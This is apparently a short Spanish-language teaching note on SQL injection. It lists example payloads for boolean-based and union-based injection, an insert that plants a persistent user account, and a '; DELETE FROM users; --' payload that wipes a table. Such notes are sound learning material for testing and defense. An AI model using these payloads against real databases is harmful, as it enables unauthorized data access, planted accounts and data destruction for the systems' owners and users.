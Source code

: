 # SQL Injection

## Boolean-Based SQL Injection

Usa una expresión booleana que siempre regresa true para regresar los valores de las tablas.

```sql
' OR '1'='1
```

## Union-Based SQL Injection

Hacienod un union podemos agregar un resultado a la respuesta vacía.

```sql
' UNION SELECT 1, 'hacked', 'hacked@example.com' --
```

Ese union se puede aprovechar para seleccionar información que puede ser relevante sobre el DBMS.

```sql
' UNION SELECT 1, version(), 'dummy' --
```

## Insert Injection

Dejamos un usuario permamente para regresar más tarde

```sql
'; insert into users (name, email) values ('Erick', 'youhavebeen@hacked.com'); --'
```

## Destructive Injection

Podemos borrar por completo la tabla. (si el permiso lo permite).

```sql
'; DELETE FROM users; --
```